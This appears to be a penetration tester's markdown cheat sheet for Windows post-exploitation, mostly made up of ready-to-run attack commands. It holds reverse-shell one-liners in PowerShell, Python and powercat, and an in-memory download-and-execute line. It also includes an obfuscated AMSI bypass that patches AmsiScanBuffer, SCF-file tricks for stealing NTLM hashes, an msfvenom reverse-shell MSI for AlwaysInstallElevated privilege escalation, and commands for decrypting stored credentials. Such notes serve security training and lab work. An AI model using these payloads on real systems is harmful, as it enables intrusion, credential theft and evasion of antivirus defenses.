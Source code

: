 ## about RID's
The RID of a group can be used to extract the SID of the group, if we have the RID then disregarding the last 8 characters(last 4 bytes) in the RID(hex format) we can get the SID of the group(in hex)
To get the RID of a user we can take it's individual ID(500 for administrator, rest are random but will be till 10500) then convert it to hex, making 0x14f, padding it to 4 bytes making it 0x0000014f, inverting it making it 0xf4100000 and then appending it with the SID of the group to get the RID of the user

## exploiting UNC paths to get NTLM hash
To get NTLM hashes are to somehow get an authenticated connection back to us, there by giving us hashes
1. One of of doing it is to somehow upload .scf files to the machine. SCF files are command files which containt very limited amount of windows explorer commands, which does not need any user interaction, and gets executed the moment a user opens the directory which contains the .scf file. So hence we can specify a UNC path to connect to and set up an smb server using responder, this will give us the NTLM hashes, because given a UNC path, windows thinks that it needs to authenticate to the remote machine, thereby giving away its hash. This attack was also prevelant in .lnk(shortcuts) files but was patched. More on this here https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` (to read the powershell history of the user)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Running scripts from memory
`iex (New-Object Net.WebClient).DownloadString('http://ip/script.ps1'); "function name with args"`

## Bypassing AMSI
```powershell
$code = @"
using System;
using System.Runtime.InteropServices;

public class Native
{

[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);

[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $code
$amsiDll = [Native]::LoadLibrary("am" + "si.dll")
$asbAddress = [Native]::GetProcAddress($amsiDll, "Am" + "si" + "Sc" + "an" + "Buf" + "fer")
$ret = [Byte[]] ( 0xC3 )
$o = 0
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, 0x40, [ref] $o)

[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddress, $ret.Length)
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, $o, [ref] $null)
```
To list all the directories excluded by win defender, we can simply query a register using `reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions /s"`

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

## We can get ntlm hash of users via write access to a directory

If we have write access to any folder, using ftp, smb, etc. then we can upload a .scf file and follow https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ this link in order to steal hash of any user who opens the directory containg the scf file
